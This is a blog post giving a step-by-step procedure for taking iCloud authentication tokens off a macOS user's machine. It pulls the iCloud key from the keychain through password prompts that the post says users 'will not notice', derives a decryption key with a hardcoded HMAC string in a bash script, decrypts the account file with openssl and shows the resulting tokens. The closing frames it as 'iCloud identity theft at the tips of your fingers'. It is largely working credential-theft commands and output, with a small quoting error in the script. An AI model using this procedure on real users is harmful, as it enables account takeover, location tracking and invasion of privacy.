 ```yaml
---
author: noncetonic
layout: post
title: iCloud Authentication Token acquisition on macOS
---
```


## Foreward ##
While this is by no means new or groundbreaking information I've been meaning to document a process known to the forensic and law enforcement community and provided as part of point-and-click toolkits available to the general public from companies such as [Elcomsoft](https://www.elcomsoft.com/CATALOG/elcomsoft_2018_en.pdf). 

The aim of this post is to educate readers on the process by which Apple protects iCloud tokens and provide a procedure for manual acquisition of these tokens on modern versions of macOS.

>>> Another motivator for posting this article is to make up for the fact that back in mid 2017 I had started writing an article on dumping this tokens without interacting with the Keychain or requiring the user's password. The bug that allowed this has since been patched but is effective on early versions of 10.13 and prior.

>>> I've provided a ready-to-go script addressing this specific vulnerability which can found on [Github Gists](https://gist.github.com/n0ncetonic/d7fba855be0f5ca3ac9303764aa55438).

## Extraction on macOS
Extraction of iCloud Auth Tokens on macOS is a multi-step process and requires the iCloud Key stored in the targetted user's keychain. 

1.) Obtain the user's iCloud Key
2.) Generating the decryption key
3.) Decrypting the mmeTokenKey file

Let's get to it.

_Note:_ *If you're looking for a quick and easy automated tool to accomplishes this same procedure, I've linked to the (at time of writing) most updated and feature rich fork of `MMeTokenDecrypt` by `security-geeks` as `manwhoami` appears to have deleted their github account and consequentially the original codebase.*

## Obtaining iCloud Key from keychain
As the iCloud Key is stored encrypted within a user's keychain, extraction requires knowing the keychain password (almost always the same as a user's login password), or alternatively, utilizing the SecurityFramework to prompt the user for access to the keychain via the `security` command.

We will opt for the latter in this article to illustrate a technique which can be applied a large array of use cases.

### Obtaining iCloud Key using SecurityFramework
The following command will prompt the user to enter their password and returns the base64 encoded iCloud Key via STDOUT. Replace `UID` with the uid of the intended user.

>**Note:** Getting the uid a user is easiest via the `id -u [user]` command. If no user is specified, the current user's uid is returned.

`launchctl asuser UID security find-generic-password -ws 'iCloud'`

> **Note** The user will be prompted for their password **twice**. This is the standard behavior of macOS and most users will not notice the different permissions being requested. The first prompt grants **permission to access the key** named `iCloud` within a user's keychain while the second prompt grants **permission to read the value** of the `iCloud` key which has authorized access in the first prompt.

![iCloudKey_keychainPrompt](https://user-images.githubusercontent.com/29786827/44942972-55abce80-ad72-11e8-97c4-609116e7d14e.png)
![iCloudKey_keyPrompt](https://user-images.githubusercontent.com/29786827/44943059-1f6f4e80-ad74-11e8-80db-465c8439d566.png)

With the iCloud Key successfully obtained it is possible to generate the key used to decrypt the mmeTokenFile containing `mmeAuthToken` and other iCloud tokens.

## Generating the decryption key
iCloud Auth Tokens are encrypted using an HMAC-MD5 composed of an undocumented 44 character string used as the HMAC key and the base64 decoded iCloud Key as the HMAC message. The psuedo-code for generating the decryption key and a working implementation in BASH leveraging only tools available on a default macOS installation follow. Yay for living off the land.



> **Note** For the curious, `/System/Library/PrivateFrameworks/AOSKit.framework/Versions/A/AOSKit` contains the subroutine `#KeychainAccountStorage _generateKeyFromData:` which uses the HMAC Key provided above when generating the decryption key.
> HMAC Key: `t9s"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}`

```
psuedo.code
// This psuedocode demonstrates the process of generating the iCloud Auth Token decryption key
hex(hmac.new(key, message, digest(md5)))
```

### BASH
```
#!/bin/bash -e
# gen_hmac-md5.sh
#
# Given a value for message, generates an HMAC-MD5 for mmeToken decryption
# HMAC key is hardcoded. Outputs the result in base64 and hex encoding
#
# n0ncetonic Copyright 2019 Blacksun Research Labs 
gen_hmac-md5() {
  message="$1"
  key="t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"
  
  hmac_md5=""

  hmac_md5=$(echo -n "$message" |base64 --decode| openssl dgst -md5 -hex -hmac "$key")
  
  echo "base64: $(base64 <<< ${hmac_md5})"
  echo "   hex: $(echo -n ${hmac_md5}"
}

gen_hmac-md5 $1
```

> **Note** The hex encoded decryption key is generally preferred for interoperability with other tools.

## Decrypting mmeAuthKey
Now that a valid decryption key has been generated the iCloud Auth Tokens can be obtained from the encrypted binary plist file stored in the `/Users/<USERNAME>/Library/Application Support/iCloud/Accounts/` directory. Files in this directory will either be symlinks with alphanumeric file names or standard files with filenames comprised of 9 digits. In the case of symlinks the email address tied to an iCloud DSID is disclosed as the filename, while the standard files disclose the `DSID` as the filename.

> **Note** The `DSID` is used in place of a username when authenticating using iCloud tokens. Making note of the `DSID` is recommended in case it is needed later.

Decrypting this file is done with the `openssl` command and results in xml structured Property List output containing the iCloud Auth Tokens. Ensure you replace `DSID` in this command with the user's actual `DSID`.

`openssl enc -d -aes-128-cbc -iv 0000000000000000 -K Hex_Encoded_Decryption_Key < "/Users/USERNAME/Library/Application Support/iCloud/Accounts/DSID" | plutil -extract 'tokens' xml1 -o - - `

>>> **Note** For output which lends itself better to scripting, copy-pasting, and readability, the decrypt command above can be changed to the command below.

`openssl enc -d -aes-128-cbc -iv 0000000000000000 -K a8f930a309a9188ca03877444ccaac6c < "/Users/user/Library/Application Support/iCloud/Accounts/8305714318 | plutil -extract 'tokens' xml1 -o - - |plutil -p -`

Resulting in output similar to below

```
{
	"cloudKitToken" => "iOIQ4Yq3J9l2AICrGYJt5pwl+k/sQJ2+FolAJNZ9ci++clFWhc1wx4/OrxK8u2Bexob0ZUC8K83guTCpNZonFpl9qSFRfaXyQ/2ga1hlfMMtYoj5MSElq2O4L9D02JCBmbmnXns3AIJusWW8AdxLNoVPZUaZdxd1CngEW3AS/2YltFHvhbhIyUkknMtHLUj5uoNJw6vfFumI10~~"
	"mapsToken" => "KW5Izw7FnUm/tbA81aTi4OLaZOzI0EQPmrajqC3W8ayFyyFTlWMCiEBWd8SnxeXJfx2HtOm2yNdmR01UFRAub2SnzPwmz7i4fiWI4h5VFd1ewVZR33QGBJBTXJqilvcC5Lz9huS1Kqqv8DxZeyWTm4hAVzQ0sqyuQG/yFLwjZydOIBICEAXUqdGSEnCdcyvFjlSd0ZDmZTFc10~~"
	"mmeAuthToken" => "Cw7Dzec+TpidWj26lmHGnCnIOQJeK3GR63+XCNT9E8CNrdJkooOgw6wtwRhJwcWRgynVnuFUGr2dYfycgnFxj5FGVAjh/8Y8yhUSn6VlDZcC7Kj+UTfnKsX5aW5GUki2iOttBNalYtiZLuVSub1MnghMpHY+Xtl6fEXSFi5A8culgXPsVbQdF4SGCPTzP9PQj+1qgk4iezr710=="
	"mmeBTMMInfiniteToken" => "SDgbvkIEolIutlD4rwlnuAkzmaZbOCc7f4hVYXWRzCqOsvQSQ6D5Vorc+p7UE7t08+tK7T3FVzSTiofE5oidM0jJCW7NaFPgKEFOVjK4aK/2ctcEQ/y1nv0eQcee/XJeI/mK/YBgmTsbIZ74+OUL9mr4t/IrQJffEBTR0FPFhoMhxwcP/kMCtEfD8egN4SUTkT6K8flQGqnT10~~"
	"mmeFMFAppToken" => "k+qpMM9hOUnUoIeamVsq+RYyBWxL0OSKFECvsGBu+I3loe3Wvl6dl8UeLeMQc6NJgrGjrYvwd1RsdpDiRFYNNm2mAI15GMTII6HJlzk9N6Ufla6rFDAQ8Yj861SPH7d1JcMiTXMZ/vKNpJqSOp26FRAwudozBTICYfb3RkLOicKydXaY5PTX6iCRPi17OqKsMbY3FhbZJTYJ10~~"
	"mmeFMIPToken" => "Ha0+FmWTnkjckMixOlKhvwNohQ1H9+QkVBovAVyVpGXGWiypbcIMByozSTtSWzb2CFEfWY3X4JkWAE35PLrG8yFEX1qYAMLTeoxeumVblCK30tBCgXv2RmB+CbrTSCKWyF7IR48eJ69c0gWWvMnhsDXLNvEUFiW0t6g6ktcQW8n/mS+ObqRw2SCYqS+1ZjMJKkmTJvd7iPF310~~"
}
```

## Closing

There you go; you've got a handful of tokens ready to be used with iCloud APIs like "FindMyFriends", "FindMyiPhone", "iPhotos" and more.

iCloud identity theft at the tips of your fingers means flattery has never been easier.

> "Imitation is the sincerest form of flattery"
*Charles Caleb Colton*


---

[security-geeks/MMeTokenDecrypt](https://github.com/security-geeks/MMeTokenDecrypt)